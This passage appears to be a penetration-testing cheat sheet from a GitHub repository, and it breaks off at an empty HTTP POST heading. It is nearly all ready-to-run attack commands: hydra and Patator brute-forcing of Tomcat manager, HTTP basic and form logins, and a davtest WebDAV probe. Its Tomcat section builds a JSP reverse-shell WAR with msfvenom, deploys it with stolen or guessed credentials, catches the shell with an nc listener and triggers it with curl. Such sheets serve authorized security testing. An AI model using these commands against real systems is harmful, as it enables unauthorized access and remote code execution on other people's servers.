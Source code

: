 #### Brute force 

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u
```

#### Tomcat panel RCE

```
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

### WebDav

```
davtest -url <URL>
```

### HTTP brute force authentication

#### HTTP basic authentication

```
# Hydra
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15

# Patator
python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307
```

#### HTTP GET request

```
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

#### HTTP POST request
